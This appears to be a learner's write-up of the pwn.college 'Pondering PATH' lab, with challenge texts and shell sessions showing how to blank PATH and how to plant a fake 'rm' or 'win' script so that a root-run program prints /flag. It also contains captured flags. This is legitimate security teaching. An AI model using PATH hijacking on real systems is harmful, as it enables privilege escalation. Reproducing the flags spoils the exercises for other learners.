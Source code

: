 #Pondering PATH
## 1 The PATH Variable

It turns out that the answer to "How does the shell find ls?" is fairly simple. There is a special shell variable, called PATH, that stores a bunch of directory paths in which the shell will search for programs corresponding to commands. If you blank out the variable, things go badly:

hacker@dojo:~$ ls
Desktop    Downloads  Pictures  Templates
Documents  Music      Public    Videos
hacker@dojo:~$ PATH=""
hacker@dojo:~$ ls
bash: ls: No such file or directory
hacker@dojo:~$
Without a PATH, bash cannot find the ls command.

In this level, you will disrupt the operation of the /challenge/run program. This program will DELETE the flag file using the rm command. However, if it can't find the rm command, the flag will not be deleted, and the challenge will give it to you! Thus, you must make it so that /challenge/run also can't find the rm command!

Keep in mind: /challenge/run will be a child process of your shell, so you must apply the concepts you learned in Shell Variables to mess with its PATH variable! If you don't succeed, and the flag gets deleted, you will need to restart the challenge to try again!

### Solve
debrato@debrato:~$ ssh -i ./key hacker@dojo.pwn.college Connected!
hacker@path-the-path-variable:~$ PATH=''
hacker@path-the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory The flag is still there! I might as well give it to you! pwn.college{sótsdwQZTb-oZ55PMi_WB-8UhQK.dZzNwUDLXATN1czW} hacker@path-the-path-variable:~$ 
hacker@path-the-path-variable: ~

## 2 Setting PATH

Okay, so things break when you blank out PATH. But what about doing something useful with PATH?

Let's explore how we would, for example, add a new directory of programs to our command repertoire. Recall that PATH stores a list of directories to find commands in and, for commands in nonstandard places, we must typically execute them via their path:

hacker@dojo:~$ ls /home/hacker/scripts
goodscript	badscript	okayscript
hacker@dojo:~$ goodscript
bash: goodscript: command not found
hacker@dojo:~$ /home/hacker/scripts/goodscript
YEAH! This is the best script!
hacker@dojo:~$
If you maintain useful scripts that you want to be able to launch by bare name, this is annoying. However, by adding directories to or replacing directories in this list, you can expose these programs to be launched using their bare name! For example:

hacker@dojo:~$ PATH=/home/hacker/scripts
hacker@dojo:~$ goodscript
YEAH! This is the best script!
hacker@dojo:~$
Let's practice. This level's /challenge/run will run the win command via its bare name, but this command exists in the /challenge/more_commands/ directory, which is not initially in the PATH. The win command is the only thing that /challenge/run needs, so you can just overwrite PATH with that one directory. Good luck!

### Solve

## 3 Finding Commands

When you type the name of a command, something inside one of the many directories listed in your $PATH variable is what actually gets executed (of course, unless the command is a builtin!). But which file, precisely? You can find out with the aptly-named which command:

hacker@dojo:~$ which cat
/bin/cat
hacker@dojo:~$ /bin/cat /flag
YEAH
hacker@dojo:~$
Mirroring what the shell does when searching for commands, which looks at each directory in $PATH in order and prints the first file it finds whose name matches the argument you passed.

In this challenge, we added a win command somewhere in your $PATH, but it won't give you the flag. Instead, it's in the same directory as a flag file that we made readable by you! You must find win (with the which command), and cat the flag out of that directory!

### Solve
Connected!                                                                        
hacker@path~finding-commands:~$ which win
/challenge/paths/14056/win
hacker@path~finding-commands:~$ dirname "$(which win)"
/challenge/paths/14056
hacker@path~finding-commands:~$ cat "$(14056 "$(which win)")/flag"
bash: 14056: command not found
cat: /flag: No such file or directory
hacker@path~finding-commands:~$ cat "$(14056 "$(which win)"
> ^C
hacker@path~finding-commands:~$ cat /challenge/paths/14056/flag
pwn.college{MSqmEfXW9dHQHjboxzsLouD5hV6.QX3MTM3EDLxATN1czW}
hacker@path~finding-commands:~$ 

## 4 Adding Commands

Recall our example from the previous level:

hacker@dojo:~$ ls /home/hacker/scripts
goodscript	badscript	okayscript
hacker@dojo:~$ PATH=/home/hacker/scripts
hacker@dojo:~$ goodscript
YEAH! This is the best script!
hacker@dojo:~$
What we see here, of course, is the hacker making the shell more useful for themselves by bringing their own commands to the party. Over time, you might amass your own elegant tools. Let's start with win!

Previously, the win command that /challenge/run executed was stored in /challenge/more_commands. This time, win does not exist! Recall the final level of Chaining Commands, and make a shell script called win, add its location to the PATH, and enable /challenge/run to find it!

Hint: /challenge/run runs as root and will call win. Thus, win can simply cat the flag file. Again, the win command is the only thing that /challenge/run needs, so you can just overwrite PATH with that one directory. But remember, if you do that, your win command won't be able to find cat.

You have three options to avoid that:

Figure out where the cat program is on the filesystem. It must be in a directory that lives in the PATH variable, so you can print the variable out (refer to Shell Variables to remember how!), and go through the directories in it (recall that the different entries are separated by :), find which one has cat in it, and invoke cat by its absolute path.
Set a PATH that has the old directories plus a new entry for wherever you create win.
Use read (again, refer to Shell Variables) to read /flag. Since read is a builtin functionality of bash, it is unaffected by PATH shenanigans.
Now, go and win!

### Solve
Connected!                                                                        
hacker@path~adding-commands:~$ ls /home/hacker/scripts
ls: cannot access '/home/hacker/scripts': No such file or directory
hacker@path~adding-commands:~$ mkdir -p /home/hacker/mybin
hacker@path~adding-commands:~$ export PATH=/home/hacker/mybin:$PATH

cat > /home/hacker/mybin/win <<'EOF'
#!/bin/sh
# plain cat usage (relies on /bin or /usr/bin being in PATH)
cat /flag
EOF

chmod +x /home/hacker/mybin/win

which win
win
/home/hacker/mybin/win
cat: /flag: Permission denied
hacker@path~adding-commands:~$ which win
/home/hacker/mybin/win
hacker@path~adding-commands:~$ win
cat: /flag: Permission denied
hacker@path~adding-commands:~$ cat > /home/hacker/mybin/win <<'EOF'
> /bin/cat /flag
> EOF
hacker@path~adding-commands:~$ chmod +x /home/hacker/mybin/win
hacker@path~adding-commands:~$ export PATH=/home/hacker/mybin:$PATH 
hacker@path~adding-commands:~$ which win
/home/hacker/mybin/win
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{wrKcn3z9iAr8urn780-OcDhj90Z.dZzNyUDLxATN1czW}

## 5 Hijacking Commands

Armed with your knowledge, you can now carry out some shenanigans. This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the rm command. But unlike before, it will not print anything out for you.

How can you solve this? You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it. What else can you create?

### Solve
Connected!                                                                        
hacker@path~hijacking-commands:~$ mkdir -p ~/mybin
export PATH="$HOME/mybin:$PATH"
hacker@path~hijacking-commands:~$ cat > ~/mybin/rm <<'EOF'
> if [ -e /flag ]; then
  cat /flag
fi
> exec /bin/rm "$@"
EOF
hacker@path~hijacking-commands:~$ chmod +x ~/mybin/rm
hacker@path~hijacking-commands:~$ which rm
/home/hacker/mybin/rm
hacker@path~hijacking-commands:~$ echo "PATH=$PATH"
PATH=/home/hacker/mybin:/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/mybin/rm. Executing!
pwn.college{gMkn-8xG2tfAv8KHjBIpzGgPSpR.ddzNyUDLxATN1czW}
Uh oh, looks like I successfully removed the flag! That means you did not 
properly set PATH to keep me from finding 'rm'. Since the flag is gone, you 
will need to re-launch the challenge from the module page! Better luck next 
time.
hacker@path~hijacking-commands:~$
